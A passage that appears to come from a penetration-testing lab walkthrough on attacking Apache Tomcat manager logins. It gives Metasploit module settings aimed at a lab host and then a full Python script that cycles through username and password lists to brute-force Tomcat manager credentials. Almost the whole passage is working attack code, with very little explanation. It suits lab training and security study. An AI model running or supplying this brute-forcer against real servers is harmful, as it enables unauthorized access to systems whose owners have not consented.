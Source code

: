 ```
set VHOST web01.inlanefreight.local

set RPORT 8180

set stop_on_success true

set rhosts 10.129.201.58

```

```
run 
```

* We can also use [this](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) Python script to achieve the same result.

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```
